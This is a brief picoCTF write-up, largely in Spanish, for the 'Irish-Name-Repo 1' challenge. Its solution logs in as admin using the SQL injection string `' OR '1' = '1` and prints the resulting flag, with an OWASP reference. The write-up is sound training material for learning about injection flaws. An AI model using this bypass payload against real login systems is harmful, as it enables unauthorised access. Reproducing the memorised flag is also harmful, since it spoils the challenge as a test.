 # Irish-Name-Repo 1

## Descripcion
There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!
## Pistas
- There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
- Try to think about how the website verifies your login.
## Solucion
```
Nos metemos en la ventana de login 
ponemos de usuario admin y de contraseña: '' OR '1' = '1'
y nos da la bandera
# Logged in!

Your flag is: picoCTF{s0m3_SQL_c218b685}

```

## Bandera

picoCTF{s0m3_SQL_c218b685}

## Notas adicionales

## Referencias
[SQL injection on OWASP](https://owasp.org/www-community/attacks/SQL_Injection)
